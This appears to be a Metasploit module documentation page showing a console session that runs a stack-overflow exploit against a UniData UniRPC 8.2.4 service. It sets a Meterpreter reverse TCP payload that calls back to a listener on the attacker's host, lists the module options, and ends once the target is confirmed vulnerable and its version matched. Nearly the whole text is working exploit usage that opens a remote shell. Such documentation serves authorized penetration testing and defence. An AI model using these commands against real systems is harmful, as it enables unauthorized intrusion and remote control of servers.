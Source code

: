 ### Version 8.2.4 with auto-detection

```
$ ./msfconsole

msf6 > use exploit/linux/misc/unidata_udadmin_password_stack_overflow
[*] Using configured payload linux/x64/meterpreter/reverse_tcp

msf6 exploit(linux/misc/unidata_udadmin_password_stack_overflow) > set LHOST 10.0.0.179
LHOST => 10.0.0.179

msf6 exploit(linux/misc/unidata_udadmin_password_stack_overflow) > set RHOST 10.0.0.198
RHOST => 10.0.0.198

msf6 exploit(linux/misc/unidata_udadmin_password_stack_overflow) > set VERBOSE true
VERBOSE => true

msf6 exploit(linux/misc/unidata_udadmin_password_stack_overflow) > show options

Module options (exploit/linux/misc/unidata_udadmin_password_stack_overflow):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   EXIT_CLEANLY  true             yes       If set, tries to kill the parent process with SIGTERM before it crashes
   RHOSTS        10.0.0.198       yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT         31438            yes       The target port (TCP)
   SRVHOST       0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT       8080             yes       The local port to listen on.
   SSL           false            no        Negotiate SSL for incoming connections
   SSLCert                        no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                        no        The URI to use for this exploit (default is random)

Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.0.0.179       yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Automatic

View the full module info with the info, or info -d command.

msf6 exploit(linux/misc/unidata_udadmin_password_stack_overflow) > exploit

[*] Started reverse TCP handler on 10.0.0.179:4444 
[*] 10.0.0.198:31438 - Running automatic check ("set AutoCheck false" to disable)
[+] 10.0.0.198:31438 - The target is vulnerable.
[*] 10.0.0.198:31438 - Getting the version number for automatic targeting...
[*] 10.0.0.198:31438 - Trying to get version number from service defcs...
[*] 10.0.0.198:31438 - UniRPC version number: 8.2.4
[*] 10.0.0.198:31438 - Found matching target for version 8.2.4!
```
